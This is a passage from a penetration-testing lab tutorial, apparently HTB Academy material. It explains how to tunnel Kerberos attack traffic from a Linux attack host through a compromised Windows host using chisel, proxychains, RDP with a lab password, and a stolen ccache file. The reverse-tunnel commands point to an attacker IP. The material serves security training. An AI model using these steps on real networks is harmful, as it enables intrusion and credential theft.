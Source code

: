### Using Linux Attack Tools with Kerberos

Our <mark style="color:red;">**attack host**</mark> doesn't have a connection to the `KDC/DC`, and we can't use the DC for name resolution. To use Kerberos, we need to proxy our traffic via `MS01` with a tool such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.

**Host File Modified**

```shell-session
$ cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

We need to modify our proxychains configuration file to use socks5 and port 1080.

**Proxychains Configuration File**

```shell-session
$ cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```

We <mark style="color:red;">**must**</mark> download and execute [chisel](https://github.com/jpillora/chisel) on our attack host.

**Download Chisel to our Attack Host**

```shell-session
$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
$ gzip -d chisel_1.7.7_linux_amd64.gz
$ mv chisel_* chisel && chmod +x ./chisel
$ sudo ./chisel server --reverse 
```

Connect to `MS01` via RDP and execute chisel

**Connect to MS01 with xfreerdp**

```shell-session
$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

**Execute chisel from **<mark style="color:blue;">**MS01**</mark>

```cmd-session
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```

Finally, we need to transfer Julio's ccache file from `LINUX01` and create the environment variable `KRB5CCNAME` with the value corresponding to the path of the ccache file.

